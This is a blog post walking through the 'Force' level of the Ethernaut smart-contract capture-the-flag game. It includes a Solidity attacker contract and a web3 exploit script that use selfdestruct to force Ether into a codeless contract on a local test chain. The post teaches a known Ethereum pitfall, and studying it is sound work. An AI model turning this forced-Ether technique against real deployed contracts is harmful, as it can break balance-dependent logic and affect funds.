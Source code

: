 Title: Solving Zeppelin's Ethernaut CTF - Force
Date: 2018-11-23 23:30
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-force
Summary: Post #8 of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. All contracts have a hidden self-destruct button. Did you known that? Read on, and see it for yourself.

## Introduction
In [Force](https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b), we need to make the balance of the Force contract greater than zero. In previous challenges we learned how to send transactions to contracts both from other contracts or using the `web3` library. Along these transactions, we would be allowed to send ether as long as the transferee had some kind of `payable` function (be it the constructor, a custom one and/or the fallback).

However, the Force contract does not have any code. I mean, **none**. How are we supposed to deposit Ether into it ? Well, luckily, we have an ace under the sleeve.

## OK contract, selfdestruct
I don't know if you were aware of this, but there's a way to "remove" code from the blockchain. Just code, external accounts cannot be removed from the state.

Every Ethereum smart contract has a hidden `selfdestruct` button, which can pressed at any time to blow the whole thing up. With one little addition: all Ether deposited in the destroyed contract can be automatically sent to whichever other account the contract (i.e. the developer) designates. This happens no matter what.

In other words, any contract can receive Ether at any time, regardless of the logic that it may implement in its code (if it has any *:wink:*). This is the reason why it is considered dangerous to bound the logic of sensible actions to the amount of Ether in balance.

For more details about `selfdestruct`, as always, refer to [the Solidity docs on selfdestruct](https://solidity.readthedocs.io/en/v0.4.25/introduction-to-smart-contracts.html#self-destruct).

We've now found a way through which a contract could send Ether to the codeless Force contract, thus incrementing its balance. So let's do it!.

## Attacking Force
To begin with, code an attacker contract to be sacrificed. Something like the following will do the trick. In the constructor we're just setting the victim address, while in the `destruct` function we just `selfdestruct` the contract, targetting the victim.

~~~solidity
pragma solidity ^0.4.18;

contract ForceAttack {
    address forceAddress;

    function ForceAttack(address _addr) public payable {
        forceAddress = _addr;
    }

    function destruct() public {
        // Execute selfdestruct
        // sending all remaining Ether to forceAddress
        selfdestruct(forceAddress);
    }
}
~~~

Let's see now how to interact with `ForceAttack` and trigger the attack through `web3`. As always, create a new file under the `exploits` folder called `force.exploit.js` and keep the same exploit structure we've been using since the first challenge.

~~~javascript
const ForceContract = artifacts.require('Force')
const ForceAttackContract = artifacts.require('ForceAttack')
const assert = require('assert')

async function execute(callback) {
    // Get a reference to the deployed Force contract
    const contractForce = await ForceContract.deployed()

    // Deploy new contract with initial balance of 5 ETH
    const INITIAL_BALANCE = 5
    const attackerContract = await ForceAttackContract.new(contractForce.address, {
        value: web3.toWei(INITIAL_BALANCE, 'ether')
    })
    
    // Initial balance of Force contract should be 0
    let balance = await web3.eth.getBalance(contractForce.address)
    assert.equal(balance, 0)
    console.log(`Initial balance: ${balance} ETH`)
    
    await attackerContract.destruct()
    
    // Once the transaction is done, final balance of Force contract must have changed
    balance = web3.fromWei(await web3.eth.getBalance(contractForce.address), 'ether')
    assert.equal(balance, INITIAL_BALANCE)
    console.log(`Final balance: ${balance} ETH`)

    callback()
}

module.exports = execute
~~~

I've added some comments to the exploit, though it is as self-explanatory as can be:

- Deploy the attacker contract
- Call `destruct` function
- Pass challenge :)

The rest are just utilities to validate and log each step of the attack.

So that's it! Make sure that you've deployed the Force contract to `ganache` before running the exploit with `npx truffle exec exploits/force.exploit.js`.

Even though the challenge may have been a little basic, it taught us a new feature of smart contracts that we'd never seen before, which might come in handy at some point.

You can find the whole [exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/force.exploit.js) and the [attacker contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/ForceAttack.sol) at the GitHub repo.

For the next post, be ready to do some Ethereum lockpicking, because we are gonna have to unlock [Vault](https://ethernaut.zeppelin.solutions/level/0xe77b0bea3f019b1df2c9663c823a2ae65afb6a5f). 

